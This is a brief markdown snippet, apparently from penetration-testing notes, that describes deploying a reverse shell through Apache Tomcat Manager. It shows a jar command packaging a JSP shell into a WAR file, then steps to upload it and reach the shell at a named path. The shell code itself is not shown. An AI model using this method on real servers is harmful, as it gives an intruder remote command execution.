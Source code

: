 # Tomcat Manager - WAR RevShell
```
jar -cvf something.war jspshell.jsp         # to create a war called something with rev shell in jspshell.jsp file
```
- Upload the WAR file
- Find the shell at "/something/jspshell.jsp"